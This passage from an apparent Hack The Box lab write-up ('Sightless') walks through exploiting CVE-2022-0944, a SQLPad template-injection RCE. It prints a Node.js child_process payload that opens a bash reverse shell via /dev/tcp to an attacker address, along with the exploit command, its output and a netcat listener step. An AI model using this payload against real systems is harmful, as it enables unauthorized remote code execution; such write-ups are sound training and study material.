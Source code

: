 ## Exploitation

`CVE-2022-0944` - This vulnerability allows for template injection via the `/api/test-connection` endpoint in SQLPad versions before 6.10.1, resulting in remote code execution (RCE).

As SQLPad is built with Node.js, I used the `child_process` module to execute arbitrary commands.

Payload - `process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/{args.attacker_ip}/{args.attacker_port} 0>&1"');`

I utilized the Python-based [__SQLPad RCE Exploit__](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944){:target="_blank"} for this.

Let's use this exploit to perform template injection in new SQLPad query. 

```bash
python3 exploit.py http://sqlpad.sightless.htb/ <Listener IP> <Listener Port>
```

The above exploit requires the target URL, listener IP, and listener port. Before executing, let's open a netcat listener on port 4444. The exploit sends the query to the server, which initiates a connection and sends back a shell to the netcat listener.

```bash
python3 exploit.py http://sqlpad.sightless.htb/ 10.10.14.70 4444
Response status code: 400
Response body: {"title":"connect ECONNREFUSED 127.0.0.1:3306"}
Exploit sent, but server responded with status code: 400. Check your listener.
```

After sending the exploit, I checked the netcat listener for the shell.

![Netcat Listener](/assets/images/writeups/Sightless-HTB/4.png)

To my surprise, I received root access directly. While browsing the directories, I noticed the presence of `.dockerenv`, confirming that the application runs in a Docker container.

![Docker Container](/assets/images/writeups/Sightless-HTB/5.png)
